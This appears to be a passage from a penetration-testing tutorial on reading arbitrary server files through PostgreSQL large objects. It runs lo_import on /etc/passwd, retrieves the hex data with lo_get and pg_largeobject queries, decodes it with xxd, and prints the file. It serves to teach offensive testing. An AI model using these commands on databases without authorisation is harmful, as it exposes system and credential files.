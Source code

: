 #### Reading Files

To read a file, we should first use `lo_import` to load the file into a new `large object`. This command should return the `object ID` of the large object which we will need to reference later on.

```shell
bluebird=# SELECT lo_import('/etc/passwd');
 lo_import
-----------
     16513
(1 row)

```

Once the file is imported we should get an `object ID`. The file will be stored in the `pg_largeobjects` table as a hexstring. If the size of the file is larger than `2kB`, the `large object` will be split up into `pages` each `2kB` large ( `4096` characters when hex encoded). We can get the contents with `lo_get(<object id>)`:

```shell
bluebird=# SELECT lo_get(16513);
<SNIP>\x726f6f743a783a303a303a726f6f743a2...<SNIP>

```

Alternatively, you can select data directly from `pg_largeobject`, but this requires specifying the page numbers as well:

```shell
bluebird=# SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
bluebird=# SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=1;
<SNIP>

```

Once we've obtained the hexstring, we can convert it back using `xxd` like this:

```shell
echo 726f6f743<SNIP> | xxd -r -p
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nolog
<SNIP>

```

Unfortunately, it's not possible to specify an `object ID` when creating the large object, so it does make things harder if you are doing this blindly. One thing you could do is select all `object IDs` from the `pg_largeobject` table and figure out which one is yours:

```shell
bluebird=# SELECT DISTINCT loid FROM pg_largeobject;
 loid
-------
 16515
(1 row)

```
